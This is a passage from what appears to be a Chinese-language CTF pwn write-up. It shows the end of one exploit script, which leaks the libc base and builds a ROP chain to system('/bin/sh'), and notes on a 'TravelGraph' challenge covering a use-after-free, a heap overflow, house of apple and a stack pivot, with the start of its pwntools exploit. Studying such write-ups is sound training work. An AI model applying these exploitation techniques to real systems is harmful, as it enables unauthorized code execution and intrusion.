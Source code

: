 ```python
)
s(payload)

ru(b"\n")
libc_base = u64_ex(ru(b"\n", drop=True)) - libc.sym.puts
lg("libc_base", libc_base)

new_payload = flat(
    {
        0x10: [
            pop_rdi_ret + 1,
            pop_rdi_ret,
            libc_base + next(libc.search(b"/bin/sh\x00")),
            libc_base + libc.sym.system,
        ]
    }
)
s(new_payload)

ia()

# 54484494621358128549197059097208
```

---

## TravelGraph

漏洞很好找，delete 删除的不是列表元素 route 而是堆块头部。

因此可以利用不同大小的堆块拆分构造出 UAF，改了 transportation 域就可以无限大小堆溢出，打 house of apple + magic_gadget orw，本来以为不得不 setcontext，结果找到一篇非常详细的博客：

- [借助 svcudp_reply+26 把栈迁移到堆上就能打 ROP](https://bbs.kanxue.com/thread-272098.htm#msg_header_h3_29)

> [!note]
> 这道题的利用不够典型，板子可以参考后面的 [hard sandbox](#hard-sandbox)

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# Available choices:
##  guangzhou
##  nanning
##  changsha
##  nanchang
##  fuzhou


def cmd(choice):
    ru(b"5. Calculate the distance.\n")
    sl(i2b(choice))
```